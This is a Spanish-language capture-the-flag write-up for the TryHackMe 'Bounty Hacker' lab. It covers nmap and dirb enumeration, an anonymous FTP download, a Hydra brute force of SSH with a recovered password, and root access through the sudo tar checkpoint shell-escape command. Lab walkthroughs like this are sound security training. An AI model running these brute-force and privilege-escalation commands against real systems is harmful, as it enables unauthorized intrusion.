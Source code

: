 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - FTP
  - Hydra
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#FTP|FTP]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Bounty Hacker

>En esta publicación, comparto cómo resolví la máquina **Bounty Hacker** de [TryHackMe](https://tryhackme.com/room/cowboyhacker).

---
## Enumeración
### Ping

`ping -c 1 10.10.230.224`

![[Pasted image 20250801094639.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.230.224 -oG allPorts`

![[Pasted image 20250801094719.png]]

`nmap -p21,22,80 -sCV 10.10.230.224 -oN targeted`

![[Pasted image 20250801094741.png]]
### HTTP

`http://10.10.230.224/`

![[Pasted image 20250801102946.png]]
#### Fuzzing Web

`dirb http://10.10.230.224/`

![[Pasted image 20250801103039.png]]

---
## Explotación
### FTP

Se observa en la enumeración que el protocolo **FTP** se encuentra abierto en el puerto 21 con el inicio de sesión anónimo.

`ftp anonymous@10.10.230.224`

![[Pasted image 20250801103238.png]]

Se descargan los archivos y se visualizan.

`get locks.txt`

`cat locks.txt`

![[Pasted image 20250801103347.png]]

`get task.txt`

`cat task.txt`

![[Pasted image 20250801103432.png]]

Se identifica al usuario `lin` y se encuentra una lista de contraseñas en el archivo `locks.txt`.

Se procede a realizar fuerza bruta con **Hydra** al servicio **SSH** con el usuario y contraseña encontrados.
### Hydra

`hydra -l lin -P locks.txt ssh://10.10.230.224`

![[Pasted image 20250801103610.png]]

Se encuentra la contraseña de `lin`: `RedDr4gonSynd1cat3`.

Se accede al servicio **SSH** (puerto 22) con las credenciales obtenidas.
### SSH

`ssh lin@10.10.230.224`

![[Pasted image 20250801103755.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250801103910.png]]

Se detecta que el binario `/bin/tar` puede ejecutarse con permisos sudo, se busca en [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo).

![[Pasted image 20250801104022.png]]

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

![[Pasted image 20250801104046.png]]

---